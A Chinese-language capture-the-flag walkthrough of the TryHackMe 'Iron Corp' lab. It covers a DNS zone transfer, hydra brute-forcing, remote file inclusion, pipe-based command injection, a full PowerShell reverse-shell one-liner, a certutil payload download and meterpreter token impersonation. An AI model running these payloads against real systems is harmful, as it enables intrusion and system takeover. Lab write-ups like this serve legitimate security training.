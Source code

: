 # Iron Corp

https://tryhackme.com/room/ironcorp

难度：难

不久前，钢铁公司遭受了安全漏洞。

您已被钢铁公司选中对其资产进行渗透测试。他们进行了系统强化，并期望您无法访问他们的系统。

范围内的资产为：ironcorp.me

注意：编辑配置文件并添加 ironcorp.me

你能访问钢铁公司的系统吗？

---

## 端口扫描

循例 nmap扫

    nmap -sS 10.10.91.218 -Pn -p- -T5

    53/tcp    open  domain
    135/tcp   open  msrpc
    3389/tcp  open  ms-wbt-server
    8080/tcp  open  http-proxy
    11025/tcp open  unknown
    49667/tcp open  unknown
    49670/tcp open  unknown

## 目录扫描

web一顿看没啥东西，gobuster扫目录也没扫出什么东西

11025端口也是web，gobuster扫，也是没啥东西

## dns域传送漏洞

回来再看一眼nmap扫描结果，使用dig看看dns

    dig ironcorp.me axfr @10.10.91.218

子域返回来了：

    ; <<>> DiG 9.18.8-1-Debian <<>> ironcorp.me axfr @10.10.91.218
    ;; global options: +cmd
    ironcorp.me.		3600	IN	SOA	win-8vmbkf3g815. hostmaster. 3 900 600 86400 3600
    ironcorp.me.		3600	IN	NS	win-8vmbkf3g815.
    admin.ironcorp.me.	3600	IN	A	127.0.0.1
    internal.ironcorp.me.	3600	IN	A	127.0.0.1
    ironcorp.me.		3600	IN	SOA	win-8vmbkf3g815. hostmaster. 3 900 600 86400 3600

将这两个子域添加到我们的/etc/hosts

在8080端口下这两个子域的内容跟之前的一样

## 身份验证爆破

http://internal.ironcorp.me:11025/ 禁止访问

http://admin.ironcorp.me:11025/ 弹出登录框

回到这个页面有用户名

    http://ironcorp.me:8080/profile.html

打开burp抓包刚刚登录框

抓到的包的部分请求头：

    Authorization: Basic YWRtaW46YWRtaW4=

base64解码后，确认这就是我们登录的凭据

    admin:123456

由于前面的网页中我们看见了mark用户，所以我们选择爆破mark

    hydra -l mark -P /usr/share/wordlists/rockyou.txt -f admin.ironcorp.me -s 11025 http-get /

好像爆不出来，也没别的信息了，再尝试爆最有可能的admin

靶机不知道怎么回事，被扫爆了还是怎么着，炸了，平台那边关也关不掉，害我白等一小时

爆admin:

    hydra -l admin -P /usr/share/wordlists/rockyou.txt -f admin.ironcorp.me -s 11025 http-get /

出来结果了：

    [11025][http-get] host: admin.ironcorp.me   login: admin   password: ********

## RFI（远程文件包含）

登录进去是一个“查询框”，尝试了几遍，确定存在RFI

尝试远程包含shell：

    view-source:http://admin.ironcorp.me:11025/?r=http://10.14.39.48:8000/linux-tools_and_exp/php_simple_cmd.php

尝试了好几种，都不行，它仅仅读取文件内容。貌似并不会将其执行

我们在上面有一个禁止访问的url，尝试一下看看能不能越权访问到：

    http://admin.ironcorp.me:11025/?r=http://internal.ironcorp.me:11025/

果然可以，我们得到了：

    http://internal.ironcorp.me:11025/name.php?name=

这个也是拒绝访问，没关系，我们继续通过RFI访问

fuzzing一些符号，有一些符号有猫腻：

    ||、&&、|

这些符号很熟悉，因为它能够帮助我们执行命令。

使用“|”管道符，将前一个命令输出作为后一个命令的输入，它将能显示输出我们执行的命令结果，验证：| whoami

    My name is:

	    nt authority\system

## Reverse Shell

payload:

    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.14.39.48',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

成功getshell

注意，我们需要进行两次url编码，否则该payload将无法生效，因为有空格

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">nc</font> <font color="#9755B3">-vlnp</font> 8888                
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.8.68.
Ncat: Connection from 10.10.8.68:50313.
whoami
nt authority\system
PS E:\xampp\htdocs\internal&gt; 
</pre>

靶机又崩了，还好这次可以正常重启靶机

user.txt在C:\users\administrator\desktop

## Token模拟

msfvenom生成meterpreter的reverse shell

    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.14.39.48 lport=8889 -f psh > she11.ps1

上传到目标机器：

    certutil -urlcache -split -f "http://10.14.39.48:8000/she11.ps1"

目标运行：

    . .\she11.ps1

成功

加载incognito模块

    load incognito

查看可用的user token:

    list_tokens -u

模拟：

    impersonate_token "WIN-8VMBKF3G815\Admin"

root.txt在C:\Users\Admin\Desktop下

